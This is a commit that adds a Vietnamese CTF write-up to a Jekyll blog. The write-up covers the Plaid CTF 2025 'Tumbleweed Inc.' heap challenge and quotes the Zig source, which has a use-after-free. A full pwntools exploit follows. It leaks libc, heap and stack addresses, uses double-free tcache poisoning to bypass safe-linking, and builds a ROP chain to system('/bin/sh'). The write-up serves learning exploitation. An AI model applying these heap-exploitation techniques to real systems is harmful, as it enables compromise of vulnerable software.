

Before and after one commit to 734P07/734p07.github.io, a Jekyll site: the page built from _pages/categories.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; part of the change alters nothing that is shown.

Commit message:
Add plaidctf 2025 tumbleweed post

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -226,7 +226,7 @@ sass:
 
 
 # Outputting
-permalink: /:categories/:title/
+permalink: /:year/:categories/:title/
 timezone: # https://en.wikipedia.org/wiki/List_of_tz_database_time_zones
 
 
--- /dev/null
+++ b/_posts/2025-04-10-plaid2025-tumbleweed.md
@@ -0,0 +1,286 @@
+---
+title:  "Plaid CTF 2025 - Tumbleweed Inc."
+date:   2025-04-10 10:00:00 +0700
+header:
+  teaser: "/assets/images/2025-04-10-plaid2025-tumbleweed/Screenshot 2025-04-10 183726.png"
+categories:
+  - competitions
+tags:
+  - elf
+  - heap
+  - double-free
+  - Plaid CTF
+---
+
+Tuần vừa rồi mình có tham gia giải Plaid CTF 2025 và kết quả không được tốt lắm khi mình không giải được challenge pwnable nào trong thời gian thi. Kết thúc giải mình có làm lại tumbleweed, sau đây sẽ là writeup của mình cho bài này.
+
+![Challenge description](/assets/images/2025-04-10-plaid2025-tumbleweed/Screenshot%202025-04-10%20183726.png){:class="img-responsive"}
+
+## Phân tích
+### Tổng quan
+Challenge cho ta một elf binary được viết bằng zig, source code cùng với libc phiên bản 2.35. Canary và PIE tắt.
+
+![Checksec](/assets/images/2025-04-10-plaid2025-tumbleweed/Screenshot%202025-04-11%20065808.png){:class="img-responsive"}
+
+Chương trình mô phỏng một thí nghiệm nuôi cấy cỏ lăn (tumbleweed) với một vài chức năng chính:
+
+```rust
+const std = @import("std");
+
+const stdout = std.io.getStdOut().writer();
+const stdin = std.io.getStdIn();
+const reader = stdin.reader();
+
+var fba_buf: [128]u8 = undefined;
+var fba: std.heap.FixedBufferAllocator = undefined;
+
+var tumbleweed_incubators: [16]?[]u8 = undefined;
+var heaps: [4]std.mem.Allocator = undefined;
+var burn_count = [4]u8{ 0, 0, 0, 0 };
+
+const technical_difficulty = error.FileNotFound;
+
+fn printOptions() !void {
+    try stdout.print("\nOptions\n", .{});
+    try stdout.print("[0] Grow a tumbleweed\n", .{});
+    try stdout.print("[1] Set a tumbleweed on fire\n", .{});
+    try stdout.print("[2] Inspect a tumbleweed\n", .{});
+    try stdout.print("[3] Trim or feed a tumbleweed\n", .{});
+    try stdout.print("[4] Give up\n", .{});
+    try stdout.print("> ", .{});
+}
+```
+
+0, Grow: Alloc 1 chunk với incubator (index), size, allocator và data được chỉ định bởi user.
+
+```rust
+fn grow() !void {
+    var idx: usize = undefined;
+    var size: usize = undefined;
+
+    try stdout.print("Which incubator? ", .{});
+    idx = readNonNegativeInt(tumbleweed_incubators.len) catch {
+        try stdout.print("Invalid index!\n", .{});
+        return technical_difficulty;
+    };
+
+    try stdout.print("Size? ", .{});
+    size = readNonNegativeInt(0) catch {
+        try stdout.print("Invalid size!\n", .{});
+        return technical_difficulty;
+    };
+
+    const heap_idx = chooseHeap() catch {
+        try stdout.print("Invalid heap choice!\n", .{});
+        return technical_difficulty;
+    };
+    tumbleweed_incubators[idx] = try heaps[heap_idx].alloc(u8, size);
+
+    try stdout.print("Label: ", .{});
+    _ = try reader.readUntilDelimiterOrEof(tumbleweed_incubators[idx].?, '\n');
+}
+```
+
+1, Burn: Free một chunk với index và allocator được chỉ định. Có set null sau khi free.
+
+```rust
+fn burn() !void {
+    var idx: usize = undefined;
+
+    try stdout.print("Which incubator? ", .{});
+    idx = readNonNegativeInt(tumbleweed_incubators.len) catch {
+        try stdout.print("Invalid index!\n", .{});
+        return technical_difficulty;
+    };
+
+    const heap_idx = chooseHeap() catch {
+        try stdout.print("Invalid heap choice!\n", .{});
+        return technical_difficulty;
+    };
+
+    if (burn_count[heap_idx] < 2) {
+        burn_count[heap_idx] += 1;
+        heaps[heap_idx].free(tumbleweed_incubators[idx].?);
+        tumbleweed_incubators[idx] = null;
+    }
+}
+```
+
+2, Inspect: In ra data của chunk với index tương ứng.
+
+```rust
+fn inspect() !void {
+    var idx: usize = undefined;
+
+    try stdout.print("Which incubator? ", .{});
+    idx = readNonNegativeInt(tumbleweed_incubators.len) catch {
+        try stdout.print("Invalid index!\n", .{});
+        return technical_difficulty;
+    };
+
+    try stdout.print("{s}\n", .{tumbleweed_incubators[idx].?});
+}
+```
+
+3, Resize: Thay đổi size của một chunk với index, target size, allocator được chỉ định. Có thông báo cho biết có resize thành công hay không. Tuy nhiên khi debug mình thấy tác động của chức năng này là không rõ ràng lắm.
+
+```rust
+fn resize() !void {
+    var idx: usize = undefined;
+    var new_size: usize = undefined;
+
+    try stdout.print("Which incubator? ", .{});
+    idx = readNonNegativeInt(tumbleweed_incubators.len) catch {
+        try stdout.print("Invalid index!\n", .{});
+        return technical_difficulty;
+    };
+
+    try stdout.print("Target size: ", .{});
+    new_size = readNonNegativeInt(0) catch {
+        try stdout.print("Invalid size!\n", .{});
+        return technical_difficulty;
+    };
+
+    const heap_idx = chooseHeap() catch {
+        try stdout.print("Invalid heap choice!\n", .{});
+        return technical_difficulty;
+    };
+
+    if (heaps[heap_idx].resize(tumbleweed_incubators[idx].?, new_size)) {
+        try stdout.print("Resize success!\n", .{});
+    } else {
+        try stdout.print("Resize failed!\n", .{});
+    }
+}
+```
+
+4, Give up: thoát chương trình (có return).
+
+### Một vài nhận xét
++ Ở chức năng resize không kiểm tra trường hợp khi `new_size` = 0, tương ứng với free, lúc này con trỏ chunk vẫn được lưu trong mảng `tumbleweed_incubators` nên ta có lỗi use-after-free.
++ Các allocator được sử dụng là C, Page, SMP và Fixed Buffer. Để cho đơn giản và quen thuộc thì chúng ta sẽ chỉ sử dụng duy nhất C allocator, như vậy các hành vi của heap sẽ dễ dự đoán hơn.
+
+## Khai thác
+Dựa vào những nhận xét trên, quy trình khai thác bài này sẽ như sau:
+1, Tạo các wrapper cần thiết cho tương tác
+
+```python
+#!/usr/bin/python3
+from pwn import *
+
+context.binary = elf = ELF("./tumbleweed_patched", checksec = False)
+libc = ELF("./libc.so.6", checksec = False)
+
+# con = process()
+con = remote("tumbleweed.chal.pwni.ng", 1337)
+
+def debug_from_here():
+    gdb.attach(con, gdb_args=['-ex', 'init-gef'], gdbscript = '''
+        b*0x10037f8
+        b*0x100417f
+    ''')
+    input()
+
+def alloc0(idx, size, payload):
+    con.sendlineafter(b'[4] Give up\n> ', b'0')
+    con.sendlineafter(b'Which incubator? ', str(idx).encode())
+    con.sendlineafter(b'Size? ', str(size).encode())
+    con.sendlineafter(b'[3] Fixed Buffer\n> ', b'0')
+    con.sendlineafter(b'Label: ', payload)
+
+def inspect2(idx):
+    con.sendlineafter(b'[4] Give up\n> ', b'2')
+    con.sendlineafter(b'Which incubator? ', str(idx).encode())
+
+def resize3(idx, size):
+    con.sendlineafter(b'[4] Give up\n> ', b'3')
+    con.sendlineafter(b'Which incubator? ', str(idx).encode())
+    con.sendlineafter(b'Target size: ', str(size).encode())
+    con.sendlineafter(b'[3] Fixed Buffer\n> ', b'0')
+```
+
+2, Leak libc bằng unsorted bin
+
+```python
+### stage 1: leak libc
+alloc0(0, 1040, b'')
+alloc0(1, 16, b'') # prevent consolidation
+resize3(0, 0)
+inspect2(0)
+leak = u64(con.recv(8))
+libc.address = leak - (libc.sym['main_arena']+96)
+log.success('Libc base: ' + hex(libc.address))
+```
+
+3, Leak địa chỉ heap để bypass cơ chế safe linking, sau đó sử dụng double free dể leak địa chỉ stack bằng những thao tác sau:
++ Lấp đầy tcache và thực hiện fastbin dup
++ Lấy hết các chunk ra khỏi tcache
++ Ghi đè fd bằng địa chỉ bất kỳ (lưu ý align), lúc này heap sẽ đưa các chunk trong fastbin vào tcache, ta sẽ có quyền đọc/ghi tuỳ ý
++ Địa chỉ để leak stack là libc environ hoặc một địa chỉ cố định chứa stack address (trong script của mình là 0x1008470)
+
+```python
+### stage 2: get arby read/write
+## stage 2.1: fill tcache and add a chunk to fastbin
+for i in range(2,9):
+    alloc0(i, 16, b'')
+alloc0(9, 16, b'')
+alloc0(10, 16, b'')
+
+for i in range(2,9):
+    resize3(i, 0)
+
+## side quest: leak heap base
+inspect2(2)
+heap_base = u64(con.recv(8)) << 12
+log.success('Heap base: ' + hex(heap_base))
+
+resize3(9, 0)
+resize3(10, 0)
+resize3(9, 0)
+
+## stage 2.2: pop a chunk from tcache and push a chunk from fastbin into it -> tcache poisoning
+for i in range(2,9):
+    alloc0(i, 16, b'')
+
+alloc0(9, 16, p64(0x1008470 ^ (heap_base + 0x380) >> 12)) # bypass safe linking
+alloc0(10, 16, b'')
+alloc0(9, 16, b'')
+alloc0(9, 16, b'')
+inspect2(9)
+stack = u64(con.recv(8))
+
+log.success('Stack leak: ' + hex(stack))
+```
+
+4, Trong quá trình debug thấy địa chỉ stack leak được cao hơn địa chỉ chứa return addr trong 1 khoảng ngẫu nhiên nhất định (0x92, 0xa2,..., 0x122). Vẫn sử dụng các thao tác ghi tuỳ ý trên, ghi đè return address của main, trigger lỗi để chương trình return và lấy shell (tỉ lệ ra shell là khoảng 1/10)
+
+```python
+### stage 3: overwrite ret addr
+POP_RDI = 0x000000000002a3e5
+RET = 0x0000000001002801
+
+for i in range(2,9):
+    alloc0(i, 40, b'')
+alloc0(9, 40, b'')
+alloc0(10, 40, b'')
+
+for i in range(2,9):
+    resize3(i, 0)
+resize3(9, 0)
+resize3(10, 0)
+resize3(9, 0)
+
+for i in range(2,9):
+    alloc0(i, 40, b'')
+
+saved_rip = stack - (randint(0x9,0x12)*0x10 + 2)
+alloc0(9, 40, p64(saved_rip - 8 ^ (heap_base + 0x580) >> 12))
+alloc0(10, 40, b'')
+alloc0(9, 40, b'')
+log.success('Try saved rip: ' + hex(saved_rip))
+alloc0(9, 40, p64(1) + p64(RET) + p64(libc.address + POP_RDI) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system']))
+
+con.interactive()
+```
+
+![Solved](/assets/images/2025-04-10-plaid2025-tumbleweed/Screenshot%202025-04-10%20010345.png){:class="img-responsive"}
````
Also changed, not shown: assets/images/2025-04-10-plaid2025-tumbleweed/Screenshot 2025-04-10 010345.png (added), assets/images/2025-04-10-plaid2025-tumbleweed/Screenshot 2025-04-10 183726.png (added), assets/images/2025-04-10-plaid2025-tumbleweed/Screenshot 2025-04-11 065808.png (added).
